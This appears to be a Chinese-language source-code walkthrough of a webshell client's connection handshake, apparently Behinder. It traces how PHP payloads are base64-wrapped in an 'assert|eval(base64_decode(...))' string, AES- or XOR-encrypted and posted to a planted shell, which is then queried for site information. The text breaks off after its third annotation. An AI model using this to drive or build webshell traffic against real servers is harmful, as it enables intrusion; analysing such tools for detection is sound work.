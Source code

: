 ``` MainController.java-> this.initShellList();-> this.initShellTable(); ```
	this.initShellList(); ->this.initShellTable(); ->this.openShell(url, shellID); -> MainWindowController.java-> initialize() -> this.initControls(); ->  mainWindowController.init(this.shellManager.findShell(Integer.parseInt(shellID)), this.shellManager, currentProxy); -> init() -> this.currentShellService = new ShellService(shellEntity); ->public ShellService(JSONObject shellEntity) -> initHeaders();//添加默认header头 -> MainWindowController.initialize() -> initControls() -> this.doConnect(); -> boolean connectResult = this.currentShellService.doConnect(); -> ShellService.doConnect() -> JSONObject obj = echo(content); -> echo() -> byte[] data = Utils.getData(this.currentKey, this.encryptType, "Echo", params, this.currentType); ->Utils.getData //根据脚本选择payload模板文件 -> 例如php-> byte[] bincls = Params.getParamedPhp(className, params); -> //含有伪随机字符串的payload模板Echo文件 // 见注释1 -> bincls = Base64.encode(bincls).getBytes(); //base64编码再取bytes -> bincls = ("assert|eval(base64_decode('" + new String(bincls) + "'));").getBytes(); //拼接 assert|eval(base64_decode(' 给server 端使用 -> //见注释2 -> byte[] encrypedBincls = Crypt.EncryptForPhp(bincls, key, encryptType); -> Crypt.EncryptForPhp //默认使用AES，第一个包并不care服务端加密方式，见注释3 -> Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding"); //"算法/模式/补码方式"  -> cipher.init(1, skeySpec, new IvParameterSpec(new byte[] { 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 })); //看server端php解密脚本可以知道 客户端AES 并未使用iv，iv=0， 见注释4 -> return Base64.encode(encrypedBincls).getBytes(); //AES之后一定要base64，不然会出现乱码； -> Map<String, Object> resultObj = Utils.requestAndParse(this.currentUrl, this.currentHeaders, data, this.beginIndex, this.endIndex); -> Utils.requestAndParse -> Utils.sendPostRequestBinary() //配置post参数 -> sendPostRequestBinary.conn.setRequestProperty("Content-Type", "application/octet-stream"); // 添加了Content-type, application/octet-stream // 实测未生效，未覆盖原php content-type，因为只有php提前在header中配置了content-type  text/html;charset=utf-8，所以猜测这一步对其他语言全部生效**；-> #Utils.sendPostRequestBinary.conn.getResponseCode() // 实际post发包的方法，第一个包就是玩 -> 返回 Map<String, Object> resultObj // header 存于 "header"，"body" 存于 "data"。-> #ShellService.echo(String content)  String localResultTxt = "{\"status\":\"c3VjY2Vzcw==\",\"msg\":\"" + Base64.encode(content.getBytes()) + "\"}"; // 定义一个 localResultTxt ，见注释5；-> byte[] localResult = Crypt.Encrypt(localResultTxt.getBytes(), this.currentKey, this.currentType, this.encryptType); -> #Crypt.Encrypt() // php 判断是AES类型后面还要再加一次base64 -> #ShellService.echo()  this.beginIndex = Utils.matchData(resData, localResult); //比较刚刚加密的字符串和响应返回的字符串。 如果不同，返回beginIndex=-1，再将beginIndex和endIndex重置为0； -> #ShellService.echo()  String resultTxt = new String(Crypt.Decrypt(Arrays.copyOfRange(resData, this.beginIndex, resData.length - this.endIndex), this.currentKey, this.encryptType, this.currentType)); //调用AES解密，因为第一个包返回时空，所以解密完返回的 resultTxt也是空； -> #ShellService.echo() JSONObject result = new JSONObject(resultTxt); //等价于new JSONObject("");  会抛出异常 -> #ShellService.doConnect() 捕获了它里面echo()方法抛的这个异常； 将加密方式调整为 XOR！！ 再次重新获取随机字符串，再次调用 JSONObject obj = echo(content); 重复上面的流程； -> 除了加密方式不同，其他一致； ->#ShellService.echo this.beginIndex = Utils.matchData(resData, localResult); 如果本地的localResult和resp body 的resData 一致，会返回 beginIndex=0; // 见注释6 -> #ShellService.echo  JSONObject result = new JSONObject(resultTxt); //将resp body data转化为json对象 ，分别对每个key("status","msg") 的value进行base64解码； -> #ShellService.doConnect()  if (obj.getString("msg").equals(content)) //将resp body 提取的msg和本地生成的content校验；校验数据一致性，如果一致表示 S端C端加密算法一致； ->  #MainWindowController.initControls()  String randString = Utils.getRandomString(randStringLength); //至此可以快乐的发第三个包了，再次获取随机字符串(第三个请求的随机字符串并未使用)，从第二个请求开始会携带cookie，并且第三个请求按照服务端的加密方式加密数据包  -> #MainWindowController.initControls()  JSONObject basicInfoObj = new JSONObject(this.currentShellService.getBasicInfo(randString)); //获取网站的基本信息  -> #ShellService.getBasicInfo  byte[] data = Utils.getData(this.currentKey, this.encryptType, "BasicInfo", params, this.currentType); // 读取payload BasicInfo ，返回base64编码的 加密payload BasicInfo -> #ShellService.getBasicInfo   Map<String, Object> resultObj = Utils.requestAndParse(this.currentUrl, this.currentHeaders, data, this.beginIndex, this.endIndex); //发第三个POST请求 -> #ShellService.getBasicInfo   result = new String(Crypt.Decrypt(resData, this.currentKey, this.encryptType, this.currentType));  // 解密resp body ，最终返回 basicInfoObj 对象 ； 见注释7; ->  





注释1：

![](images/6.jpg)

![](images/7.jpg)

注释2：

![](images/8.jpg)

注释3：

ShellService.java
```